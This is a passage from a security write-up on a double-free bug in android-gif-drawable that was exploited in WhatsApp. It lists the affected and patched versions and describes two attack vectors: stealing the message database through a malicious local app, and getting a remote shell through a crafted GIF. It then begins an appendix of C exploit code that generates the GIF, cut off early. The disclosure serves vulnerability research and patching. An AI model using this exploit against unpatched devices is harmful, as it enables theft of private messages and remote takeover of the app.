 ## Affected versions
The exploit works well until WhatsApp version 2.19.230. The vulnerability is official patched in WhatsApp version 2.19.244

The exploit works well for Android 8.1 and 9.0, but does not work for Android 8.0 and below. In the older Android versions, double-free could still be triggered. However, because of the malloc calls by the system after the double-free, the app just crashes before reaching to the point that we could control the PC register.

Note that Facebook informed the developer of android-gif-drawable repo about the issue. The fix from Facebook was also merged into the original repo in a commit from August 10th. [Version 1.2.18 of android-gif-drawable](https://github.com/koral--/android-gif-drawable/releases/tag/v1.2.18) is safe from the double-free bug.


## Attack vectors
With the above exploitation, we can have two attack vectors:

1. Local privilege escaltion (from a user app to WhatsApp): A malicious app is installed on the Android device. The app collects addresses of zygote libraries and generates a malicious GIF file that results in code execution in WhatsApp context. This allows the malware app to steal files in WhatsApp sandbox including message database.
2. Remote code execution: Pairing with an application that has an remote memory information disclosure vulnerability (e.g. browser), the attacker can collect the addresses of zygote libraries and craft a malicious GIF file to send it to the user via WhatsApp (must be as an attachment, not as an image through Gallery Picker). As soon as the user opens the Gallery view in WhatsApp (who never sends media files to friends, right?), the GIF file will trigger a remote shell in WhatsApp context.

## Appendix

exploit.c
```c
#include "gif_lib.h"

#define ONE_BYTE_HEX_STRING_SIZE   3
static inline void
get_hex(char *buf, int buf_len, char* hex_, int hex_len, int num_col) {
    int i;
    unsigned int byte_no = 0;
    if (buf_len <= 0) {
        if (hex_len > 0) {
            hex_[0] = '\0';
        }
        return;
    }
    if(hex_len < ONE_BYTE_HEX_STRING_SIZE + 1)
        return;
    do {
        for (i = 0; ((i < num_col) && (buf_len > 0) && (hex_len > 0)); ++i ) {
            snprintf(hex_, hex_len, "%02X ", buf[byte_no++] & 0xff);
            hex_ += ONE_BYTE_HEX_STRING_SIZE;
            hex_len -=ONE_BYTE_HEX_STRING_SIZE;
            buf_len--;
        }
        if (buf_len > 1) {
            snprintf(hex_, hex_len, "\n");
            hex_ += 1;
        }
    } while ((buf_len) > 0 && (hex_len > 0));
}

int genLine_0(unsigned char *buffer) {
/*
    00000000: 0000 0000 0000 0000 0000 0000 0000 0000  ................
```